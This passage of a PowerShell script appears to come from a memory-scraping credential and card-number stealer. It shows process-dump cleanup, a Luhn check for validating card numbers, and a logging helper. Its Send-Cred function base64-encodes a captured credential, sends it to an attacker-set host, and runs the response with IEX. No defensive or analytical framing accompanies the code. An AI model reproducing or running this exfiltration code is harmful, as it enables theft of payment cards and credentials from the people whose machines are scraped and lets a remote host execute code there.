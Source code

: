             # Remove any partially written dump files. For example, a partial dump will be written
            # in the case when 32-bit PowerShell tries to dump a 64-bit process.
            Remove-Item $ProcessDumpPath -ErrorAction SilentlyContinue

            throw $ExceptionMessage
        }
        else
        {
            Get-ChildItem $ProcessDumpPath
        }
    }

    END {}
}

# luhn test code sourced from: http://scriptolog.blogspot.com/2008/01/powershell-luhn-validation.html
function Test-LuhnNumber([int[]]$digits){
 
    [int]$sum=0
    [bool]$alt=$false

    for($i = $digits.length - 1; $i -ge 0; $i--){
        if($alt){
            $digits[$i] *= 2
            if($digits[$i] -gt 9) { $digits[$i] -= 9 }
        }

        $sum += $digits[$i]
        $alt = !$alt
    }
    
    return ($sum % 10) -eq 0
}

function Write-Log ($logstring, $color = "White")
{
    $LogFile = "mem_output.txt"
    $timestamp = Get-Date
    if ($Logging) 
		{ Add-Content $LogFile -value "[$timestamp] - $logstring" }
    else 
		{ Write-Host "[$timestamp] - $logstring" -ForegroundColor $color }
}

function Send-Cred($cred) {
    if ($LogHost) {
        $cred = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($cred.Value))
        IEX (new-object net.webclient).downloadstring("http://$LogHost/$cred") -ErrorAction SilentlyContinue
    }
}

